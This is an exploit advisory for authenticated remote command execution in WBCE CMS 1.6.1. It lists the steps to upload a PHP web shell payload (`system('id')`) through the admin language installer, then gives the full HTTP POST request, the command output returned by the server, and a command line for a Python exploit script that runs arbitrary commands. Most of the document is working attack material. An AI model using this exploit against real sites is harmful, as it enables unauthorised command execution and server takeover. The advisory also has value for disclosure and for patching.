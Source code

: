 ## Exploit Title: WBCE CMS Version 1.6.1 Remote Command Execution

- **Date:** 30/11/2023
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [WBCE CMS](https://wbce-cms.org/)
- **Software Link:** [WBCE CMS 1.6.1](https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.1.zip)
- **Version:** 1.6.1

![WBCE_CMS Image 1](https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/1.png)
![WBCE_CMS Image 2](https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/2.png)

### POC:

1. Login with admin credentials and click on Add-ons.
2. Navigate to Language > Install Language > [https://demos6.demo.com/admin/languages/index.php](https://demos6.demo.com/admin/languages/index.php)
3. Upload `upgrade.php` with the content `<?php echo system('id'); ?>`, then click install > [https://demos6.demo.com/admin/languages/install.php](https://demos6.demo.com/admin/languages/install.php)
4. The command execution result will be displayed: 

uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)


### Post Request:

```http
POST /admin/languages/install.php HTTP/1.1
Host: demos6.demo.com
Cookie: [cookie values]
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://demos6.demo.com/admin/languages/index.php
Content-Type: multipart/form-data; boundary=---------------------------86020911415982314764024459
Content-Length: 522
Origin: https://demos6.demo.com
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="formtoken"

5d3c9cef-003aaa0a62e1196ebda16a7aab9a0cf881b9370c
-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="userfile"; filename="upgrade.php"
Content-Type: application/x-php

<?php echo system('id'); ?>

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="submit"
```

```
-----------------------------86020911415982314764024459--

<!-- ################### Up from here: Original Code from original template ########### -->

<!-- senseless positioning-table: needed for old modules which base on class td.content -->
<div class="row" style="overflow:visible">
<div class="fg12">
<table id="former_positioning_table">
<tr>
    <td class="content">
uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)
    <div class="top alertbox_error fg12 error-box">
        <i class=" fa fa-2x fa-warning signal"></i>
                    <p>Invalid WBCE CMS language file. Please check the text file.</p>    
                    <p><a href="index.php" class="button">Back</a></p>
```

### Exploit:

To exploit this vulnerability, use the provided Python script:

```python3 Exploit.py https://demos6.demo.com/admin/ admin password 'whoami'```
